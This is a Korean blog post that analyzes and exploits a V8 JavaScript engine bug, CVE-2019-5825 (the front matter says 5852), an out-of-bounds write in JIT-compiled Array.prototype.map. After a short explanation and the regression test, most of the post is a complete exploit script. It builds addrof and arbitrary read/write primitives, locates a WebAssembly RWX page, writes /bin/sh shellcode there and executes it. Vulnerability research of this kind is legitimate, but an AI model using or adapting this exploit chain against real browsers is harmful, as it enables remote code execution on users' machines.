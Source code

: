 ```yaml
---
layout:     post
title:      "CVE-2019-5852 v8 exploit"
subtitle:   "v8 vulnerability analysis"
date:       2019-08-08
author:     "NextLine"
header-img: "img/post-bg-2.png"
tags:
    - CVE
---
```


# CVE-2019-5825 v8 exploit

### 1. Intro

regress 파일만 보고 exploit 했는데 분석하기 어렵지 않았다. 다만 디버그 모드에서 큰 사이즈의 smi array를 만드는데 시간이 오래걸려서 인내심이 필요했다.

### 2. Vulnerability

```javascript
// Copyright 2019 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.
// Flags: --allow-natives-syntax --noenable-slow-asserts
// This call ensures that TurboFan won't inline array constructors.
Array(2**30);
// Set up a fast holey smi array, and generate optimized code.
let a = [1, 2, ,,, 3];
function mapping(a) {
  return a.map(v => v);
}
mapping(a);
mapping(a);
%OptimizeFunctionOnNextCall(mapping);
mapping(a);
// Now lengthen the array, but ensure that it points to a non-dictionary
// backing store.
a.length = (32 * 1024 * 1024)-1;
a.fill(1,0);
a.push(2);
a.length += 500;
// Now, the non-inlined array constructor should produce an array with
// dictionary elements: causing a crash.
mapping(a);
```
v8에서 길이가 0x2000000 보다 큰 array를 할당하면 dictionary array가 생성된다. 즉 길이가 0x2000000 보다 큰 array의 경우 일반적으로 dictionary array일 가능성이 높다.<br>
Array.prototype.map이 JIT에 의해 컴파일되면 인자로 받은 길이만큼 Array를 생성하고 내용을 복사하는데, 길이가 0x2000000 보다 큰 array를 dictionary array로 가정하고 따로 확인하는 부분이 존재하지 않는다.<br>
하지만 길이가 0x2000000 보다 큰 smi array를 생성할 수 있고 그 array가 인자로 전달되면 반환되는 array는 dictionary array로 생성되기 때문에 smi array의 내용을 복사하는 과정에서 out-of-bounds write 취약점이 발생한다.

### 3. Exploit

exploit에서 까다로운 점은 oob write를 할 때 매우 큰 메모리를 복사하기 때문에 메모리 범위를 벗어나 크래시가 발생한다는 점이다. 그래서 try/catch를 이용해 oob 범위를 잘 조정해야한다. oob write를 이용해 unboxed double array의 길이를 덮고 addrof 함수를 만든 이후에 ArrayBuffer의 backing store를 덮어 arbitrary read/write를 얻었다.

```javascript
function gc() { for (let i = 0; i < 0x10; i++) { new ArrayBuffer(0x1000000); }};
let f64 = new Float64Array(1);
let u32 = new Uint32Array(f64.buffer);
function d2u(v) {
  f64[0] = v;
  return u32;
}
function u2d(lo, hi) {
  u32[0] = lo;
  u32[1] = hi;
  return f64[0];
}
function hex(lo, hi) {
  if( lo == 0 ) {
    return ("0x" + hi.toString(16) + "00000000");
  }
  if( hi == 0 ) {
    return ("0x" + lo.toString(16));
  }
  return ("0x" + ('00000000'+hi.toString(16)).substr(8) +('00000000'+lo.toString(16)).substr(8));
}
const SIZE = 32 * 1024 * 1024;
// This call ensures that TurboFan won't inline array constructors.
Array(2**30);
// Set up a fast holey smi array, and generate optimized code.
let arr = [1, 2, ,,, 3];
// for rwx
let wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 7, 1, 96, 2, 127, 127, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0, 1, 7, 21, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 8, 95, 90, 51, 97, 100, 100, 105, 105, 0, 0, 10, 9, 1, 7, 0, 32, 1, 32, 0, 106, 11]);
let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
let f = wasm_mod.exports._Z3addii;
// global
let targetArray = null; 
let targetBuffer = null;
let bufferidx = null;
let leakarray = null;
let leakidx = null;
function func(v,idx) {
  if (idx > 0x1a){
    throw "err";
  }else if (idx == 0x1a) {
    targetArray = [1.1, 2.2, 3.3, 4.4, 5.5];
  }
  return v;
}
function mapping(a) {
  return a.map(func);
}
for(let i = 0; i < 100000; i++){
  mapping(arr);
}
// Now lengthen the array, but ensure that it points to a non-dictionary
// backing store.
arr.length = SIZE-1;
arr.fill(1,0);
arr.push(2);
arr.length += 500;
// Now, the non-inlined array constructor should produce an array with
// dictionary elements: causing a crash.
// readline();
try{
  gc();
  mapping(arr);
} catch {};
if (targetArray.length == 1072693248) {
  print("success");
}
// make addrof
leakarray = [0x4141,0x4242,{}];
for (let i = 0; i < 0x10000; i++) {
  if(targetArray[i] == u2d(0,0x4141)){
    if(targetArray[i+1] == u2d(0,0x4242)){
      leakidx = i; 
      break;
    }
  }
}
let addrof = function(obj){
  leakarray[0] = obj;
  return d2u(targetArray[leakidx]);
};
// make r/w
targetBuffer = new ArrayBuffer(0x1230);
for (let i = 0; i < 0x10000; i++) {
    if(targetArray[i] == u2d(0x1230,0)){
    bufferidx = i + 1;
    bufferbackup = targetArray[bufferidx];
    break;
    }
}
let read8 = function(address) {
  targetArray[bufferidx] = address;
  var tmp = new Uint32Array(targetBuffer);
  var re = [tmp[0], tmp[1]];
  return re; 
}
var wasm = addrof(wasm_mod);
var rwx = read8(u2d(wasm[0]+0xff,wasm[1]));
targetArray[bufferidx] = u2d(rwx[0],rwx[1]);
var dataview = new DataView(targetBuffer);
var shellcode = [ 0xb848686a, 0x6e69622f, 0x732f2f2f, 0xe7894850, 0x1697268, 0x24348101, 0x1010101, 0x6a56f631, 0x1485e08, 0x894856e6, 0x6ad231e6, 0x50f583b];
for(let i = 0; i < shellcode.length; i++) {
  dataview.setUint32(i * 4, shellcode[i], true);
}
f();
```
